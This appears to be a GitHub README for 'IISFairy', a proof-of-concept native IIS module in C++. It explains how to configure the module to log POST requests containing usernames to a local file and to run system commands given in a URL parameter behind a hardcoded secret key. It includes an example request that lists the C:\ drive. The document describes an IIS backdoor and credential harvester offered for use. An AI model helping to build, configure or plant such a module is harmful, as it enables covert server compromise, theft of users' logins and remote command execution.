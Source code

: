 # IISFairy
Simple PoC IIS Native module coded in c++, it's able to capture post request to a specific urland exucte commands through url request.

# Settings
Before compiling make sure to set below settings so it suits to your needs.

<b>Logging part :</b>

--> Page to save Post Request for :
PCWSTR getPostRequestfromthisUrl = L"yourmomistheiisfairy.html";

--> Trigger parameter in Post Request to start the log :
LPCSTR lpFound = strstr((LPCSTR)FormData, "username");

--> Local location to save logfile to :
std::wofstream outputFile("C:\\yourmomtheiisfairy.txt", std::ios::out | std::ios::app);

<b>CMD part :</b>

--> Parameter in get url request to activate cmd detection, a.k.a. password :
PCWSTR activateCMDtrigger = L"secretkey=iisfairy";

--> Parameter in get url request to get cmd from :
std::string paramValue = UrlDecode(ExtractQueryParamValue(urlBuffer, "sauce"));

--> Url request example to display C:\ directory :
http://localhost/yourmomistheiisfairy.html?secretkey=iisfairy&sauce=dir%20C:\







